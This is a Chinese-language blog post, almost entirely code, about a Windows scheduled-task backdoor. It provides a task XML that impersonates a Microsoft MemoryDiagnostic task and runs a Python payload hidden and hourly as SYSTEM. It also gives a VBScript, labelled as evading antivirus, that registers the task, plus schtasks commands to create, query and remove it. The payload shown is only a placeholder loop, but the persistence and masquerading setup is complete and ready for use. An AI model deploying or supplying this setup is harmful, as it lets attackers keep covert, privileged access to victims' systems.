 ```yaml
---
author: XhstormR
tags:
- security
date: 2019-10-04T14:00:20+08:00
title: 计划任务 Backdoor
---
```


<!--more-->

Updated on 2019-10-04

## 123.xml
```xml
<?xml version="1.0" ?>
<Task version="1.6" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Source>Microsoft Corporation</Source>
    <Author>Microsoft Corporation</Author>
    <URI>\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents</URI>
  </RegistrationInfo>
  <Triggers>
    <TimeTrigger>
      <Repetition>
        <Interval>PT1H</Interval>
        <StopAtDurationEnd>false</StopAtDurationEnd>
      </Repetition>
      <StartBoundary>2000-01-01T00:00:00</StartBoundary>
      <Enabled>true</Enabled>
    </TimeTrigger>
  </Triggers>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <AllowHardTerminate>false</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>false</StopOnIdleEnd>
      <RestartOnIdle>true</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <DisallowStartOnRemoteAppSession>false</DisallowStartOnRemoteAppSession>
    <UseUnifiedSchedulingEngine>true</UseUnifiedSchedulingEngine>
    <WakeToRun>true</WakeToRun>
    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
    <Priority>0</Priority>
    <RestartOnFailure>
      <Interval>PT5M</Interval>
      <Count>3</Count>
    </RestartOnFailure>
  </Settings>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>"%ProgramFiles%\Waves\python\pythonw.exe"</Command>
      <Arguments>123.pyc</Arguments>
      <WorkingDirectory>%ProgramFiles%\Waves\python</WorkingDirectory>
    </Exec>
  </Actions>
</Task>
```

### Reference
* https://docs.microsoft.com/zh-cn/windows/win32/taskschd/task-scheduler-schema
* https://docs.microsoft.com/zh-cn/windows/security/identity-protection/access-control/security-identifiers

## 123.pyc

### 123.py

```python
import time
while True: time.sleep(5)
```

```bash
python -m compileall 123.py # output: __pycache__/123.cpython-313.pyc
```

## 注册任务

### 脚本（免杀）

#### 123.vbs

```
Set service = CreateObject("Schedule.Service")
service.Connect

Set file = CreateObject("Scripting.FileSystemObject").OpenTextFile("123.xml")
text = file.ReadAll
file.Close

Set rootFolder = service.GetFolder("\")
rootFolder.RegisterTask "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents", text, 6, , , 5
```

```bash
cscript.exe //Nologo 123.vbs

wscript.exe：输出至 Windows，
cscript.exe：输出至 Console。
```

#### Reference
* https://ss64.com/vb/filesystemobject.html
* https://docs.microsoft.com/zh-cn/dotnet/api/microsoft.visualbasic.constants
* https://docs.microsoft.com/zh-cn/office/vba/language/reference/user-interface-help/filesystemobject-object
* https://github.com/DoctorLai/VBScript_Obfuscator

### 工具
```
schtasks.exe /create /tn "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents" /f /xml 123.xml
schtasks.exe /query  /tn "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents" /v /fo list
schtasks.exe /delete /tn "\Microsoft\Windows\MemoryDiagnostic\ProcessMemoryDiagnosticEvents" /f
```
